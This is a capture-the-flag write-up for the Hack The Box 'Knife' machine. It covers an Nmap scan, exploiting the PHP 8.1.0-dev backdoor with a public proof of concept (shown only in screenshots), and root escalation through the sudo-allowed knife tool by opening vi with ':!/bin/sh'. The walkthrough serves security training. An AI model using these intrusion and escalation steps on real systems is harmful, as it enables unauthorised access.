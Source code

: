 # HTB-knife

As always, started with Nmap and didn't find anything too useful, only ports 22 and 80 are open.

```bash
# Nmap 7.94SVN scan initiated Sun Feb 18 13:08:20 2024 as: nmap -p- -Pn -A -T4 -sC -oN nmap.txt 10.129.24.143
Nmap scan report for 10.129.24.143
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 18 13:08:43 2024 -- 1 IP address (1 host up) scanned in 22.82 seconds
```

The website itself was also pretty bare-bones.

I decided to run Nikto against the website, as I saw it was running PHP, and I wanted to find the version.

Nikto revealed that the website was running PHP version: PHP/8.1.0-dev

<figure><img src=".gitbook/assets/image (191).png" alt=""><figcaption></figcaption></figure>

Going off that as my only lead, I was able to find a vulnerability for this version of PHP. This [Github ](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)link provided me with an unauthenticated RCE.

I grabbed this POC script first

<figure><img src=".gitbook/assets/image (192).png" alt="" width="563"><figcaption></figcaption></figure>

Then fired off the command on my end and got a shell.

<figure><img src=".gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

Which then led me to getting my first flag.

<figure><img src=".gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

The shell I was in wasn't great. Luckily back on that Github for the POC, there was another script for a reverse shell, so I grabbed that, ran it, and got a much better shell.

<figure><img src=".gitbook/assets/image (195).png" alt="" width="563"><figcaption></figcaption></figure>

Running the command

```bash
sudo -l
```

Showed me I had sudo in /usr/bin/knife

<figure><img src=".gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>

Knife tool provides an interface to manage Chef automation server nodes, cookbooks, recipes and etc. Knife usage can be read from [manpage](https://manpages.ubuntu.com/manpages/bionic/man1/knife.1.html). Some examples shows that, it is possible to edit knife data bags using a text editor. We can try that.

```bash
sudo knife data bag create 1 2 -e vi
```

This opens up the vim editor. We type below in the editor to get a shell as root.

```bash
:!/bin/sh
```

<figure><img src=".gitbook/assets/image (197).png" alt="" width="366"><figcaption></figcaption></figure>
